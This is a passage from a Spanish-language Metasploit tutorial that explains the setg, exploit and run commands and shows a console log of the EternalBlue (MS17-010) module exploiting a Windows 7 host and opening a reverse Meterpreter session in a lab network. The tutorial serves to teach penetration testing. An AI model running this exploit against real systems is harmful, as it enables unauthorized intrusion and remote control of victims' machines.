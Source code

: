 El comando `setg` establece un valor global que se utilizará hasta que salgas de Metasploit o lo borres utilizando el comando `unsetg`.

## Uso de Módulos

Una vez que se hayan configurado todos los parámetros del módulo, puedes lanzar el módulo utilizando el comando `exploit`. Metasploit también admite el comando `run`, que es un alias creado para el comando `exploit`, ya que la palabra `exploit` no tiene sentido cuando se utilizan módulos que no son exploits (escaners de puertos, escáneres de vulnerabilidades, etc.).

El comando `exploit` se puede usar sin ningún parámetro o utilizando el parámetro “-z”.

El comando `exploit -z` ejecutará el exploit y enviará la sesión a segundo plano tan pronto como se abra. Esto te devolverá al aviso de contexto desde el que ejecutaste el exploit.


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z

[*] Started reverse TCP handler on 10.10.44.70:4444 
[*] 10.10.12.229:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.12.229:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.12.229:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.12.229:445 - Connecting to target for exploitation.
[+] 10.10.12.229:445 - Connection established for exploitation.
[+] 10.10.12.229:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.12.229:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.12.229:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.12.229:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.12.229:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.12.229:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.12.229:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.12.229:445 - Sending all but last fragment of exploit packet
[*] 10.10.12.229:445 - Starting non-paged pool grooming
[+] 10.10.12.229:445 - Sending SMBv2 buffers
[+] 10.10.12.229:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.12.229:445 - Sending final SMBv2 buffers.
[*] 10.10.12.229:445 - Sending last fragment of exploit packet!
[*] 10.10.12.229:445 - Receiving response from exploit packet
[+] 10.10.12.229:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.12.229:445 - Sending egg to corrupted connection.
[*] 10.10.12.229:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.12.229
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186) at 2021-08-20 02:06:48 +0100
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.12.229:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 2 created in the background.
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

